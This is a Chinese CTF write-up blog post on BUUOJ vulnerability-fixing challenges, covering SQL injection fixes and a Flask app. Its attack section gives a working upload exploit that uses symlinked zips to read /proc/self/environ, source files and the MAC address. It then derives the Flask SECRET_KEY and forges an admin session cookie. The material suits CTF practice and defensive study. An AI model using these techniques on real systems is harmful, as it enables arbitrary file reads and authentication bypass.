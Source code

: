 ```yaml
---
title: "buuoj加固题 Wp"
slug: "buuoj-fixchalls-wp"
description: "合集合集，长期更新~"
date: 2021-11-07T08:57:29+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


buuoj新上了加固题这个分类，也就是线下awdp中fix的部分，只要将靶机中存在的漏洞修复好并通过check的检测即可拿到flag；有一说一，比单纯attack拿flag会简单很多（适合我这种沸物web

下面的wp会先说纯修复角度，再串一下整体的知识点；因为自己水平有限，想尽可能说的清楚一些就会比较啰嗦，见谅QAQ

## Ezsql

### FIX

![image-20211107083450780](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083450780.png)

200行，太典了，对传入的参数完全没有检测，是个筛子；用预处理的方式修，又可以分为两种形式

### mysql预处理

![image-20211107083655664](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083655664.png)

其中201行的`ss`指的是绑定SQL参数的类型为string，这一项必不可少而且必须与后面的参数一一对应

### PDO预处理

![image-20211107084309239](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107084309239.png)

PDO预处理属于是通防了，能有效地应对sqli特别是堆叠注入，208行的设置项意为禁用模拟预处理

## [CISCN2021 总决赛]babypython

### FIX

ssh连上后看下目录结构

![image-20211106212456961](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212456961.png)

查看/app/y0u_found_it/y0u_found_it_main.py

![image-20211106212556547](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212556547.png)

11行这不是典中典了？读mac地址就打通了，所以我们直接把SECRET_KEY改为一个又长又乱的随机字符串即可，可以使用[uuid/guid生成器](uuid/guid生成器)来生成

![image-20211106210732859](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106210732859.png)

> ————碎碎念：这里修复的时候可能看脸？我在几天前试的时候用的一模一样的方法，但是怎么都不能过check，今天试了一次就可以了，但是在写wp的时候再复盘就又不可以了……emmm 可能还是哪里的细节出了错但是我没有注意到？给我整不会了属于是

### 关于本题

是个原题，还是个有了包浆的原题，参见->**[[HCTF 2018]Hideandseek](https://buuoj.cn/challenges#[HCTF%202018]Hideandseek)**  |  **[[SWPU2019]Web3](https://buuoj.cn/challenges#[SWPU2019]Web3)**，做过的就知道这他妈真的就一模一样hhhhhhhh

考点在于linux软链接+uuid+flask-session伪造，后者还经常单独出题，比如 **[[CISCN2019 华东南赛区]Web4](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web4)**，都快烤烂了

### 考点一 · uuid&SECRET_KEY

SECRET_KEY通过uuid+伪随机数的方式生成，这个考点可以参考 **[[CISCN2019 华东南赛区]Web4](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web4)**，其中app.py是这样写的

![image-20211106212834438](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212834438.png)

`uuid.getnode()`会以48位二进制长度的正整数形式返回mac地址，linux下mac地址的位置在`/sys/class/net/eth0/address`，读出mac地址后我们也来生成一波伪随机数

![image-20210707204313712](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204313712.png)

之后通过flask-session-cookie-manager一把梭即可伪造session值

![image-20210707204240633](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204240633.png)

————另外，通常访问不存在目录时SECRET_KEY会出现在请求头中

### 考点二 · linux软链接文件读取&zip压缩包

ln -s是linux中的软链接命令，我们可以制作对应文件的绝对路径的软链接来读文件；当不知道flask工作目录可以使用`/proc/self/cwd`来指向当前进程的目录

```bash
ln -s /proc/self/cwd/flag/flag/.jpg qwe
```

或者通过`/proc/self/environ`文件里包含进程的环境变量，可以从中获取flask的绝对路径，再制作软链接（关于/proc的更多信息可以参见->[/proc目录的妙用](/proc目录的妙用)  |  [LFItoRCE利用总结](https://bbs.zkaq.cn/t/3639.html)，题->[[网鼎杯 2020 白虎组]PicDown](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E7%99%BD%E8%99%8E%E7%BB%84]PicDown)

```bash
ln -s /proc/self/environ qwe
```

而对于目录内文件的列举也是有方法的，参见->[34C3 CTF Web题 extract0r Writeup](https://blog.csdn.net/keyball123/article/details/105169946)

甚至也可以写入shell，参见->[[深育杯 2021]Zipzip](https://mp.weixin.qq.com/s/NvItuko9ZAUNTJaSzBpNKw)

制作好的软链接通过zip打包

```bash
zip -ry qwe.zip qwe
```

更多题目中的应用可以参见->[记录一道题的多种解法](http://redteam.today/2018/01/20/%E8%AE%B0%E5%BD%95%E4%B8%80%E9%81%93%E9%A2%98%E7%9A%84%E5%A4%9A%E7%A7%8D%E8%A7%A3%E6%B3%95/)

关于这个漏洞的实际应用可以参见->[GitLab 任意文件读取漏洞 (CVE-2016-9086) 和任意用户 token 泄露漏洞](https://paper.seebug.org/104/)

### *ATTACK

exp.py - 1 生成软链接&zip&自动上传

```python
import requests
import os
import sys

url = 'http://0a716e50-1cf2-4cd8-a00f-b70d9987ed64.node3.buuoj.cn/upload'

def makezip():
    os.system('ln -s '+sys.argv[1]+' exp')
    # os.system('zip --symlinks exp.zip exp')
    os.system('zip -ry exp.zip exp')
makezip()

files = {'the_file':open('./exp.zip', 'rb')}
def exploit():
    res = requests.post(url, files=files)
    print(res.text)
exploit()

os.system('rm -rf exp')
os.system('rm -rf exp.zip')
```

```bash
python3 exp.py /proc/self/environ
python3 exp.py /app/y0u_found_it.ini
python3 exp.py /app/y0u_found_it/y0u_found_it_main.py
python3 exp.py /sys/class/net/eth0/address
```

![image-20211106234837193](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106234837193.png)

exp.py - 2 根据mac地址生成伪随机数

```python
import uuid
import random

mac = "02:42:0a:00:cb:06"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
random.seed(mac)
result = str(random.random()*100)
print(result)
# 36.014406163923596
```

```bash
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6Imd1ZXN0In0.FGg0EA.rHjESo_p6RCP0eiosSFmF3xEmRc'
python3 flask_session_cookie_manager3.py encode -s '36.014406163923596'  -t "{u'username': u'admin'}"
```

![image-20211106235751916](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235751916.png)

翻回头看源码，好家伙这里有内鬼

![image-20211106235832895](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235832895.png)

![image-20211107075450043](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075450043.png)

返回的并不是真正的flag，而是secret.secret中的内容no flah

![image-20211107075326929](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075326929.png)

67行这里会对unzip打开的文件进行检查，只要含有flag字样就会重定向至/?error=1

————这里我感觉原题应该secret.py中的`secret=`直接就能读出来flag，想了好久，再绕一层flag.txt的话我是想不出来什么bypass的方法了，我倾向于是布置环境的时候没有设置这一点（

## ***[CISCN2021 总决赛]easy_python

![image-20211106212057524](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212057524.png)

不知道是我的网络问题还是什么未知的bug……check之后就会宕机，只能重新下发靶机

## ***[CISCN2021 总决赛]ezj4va

https://juejin.cn/post/6997314123918737422

还不会java 先空着TAT

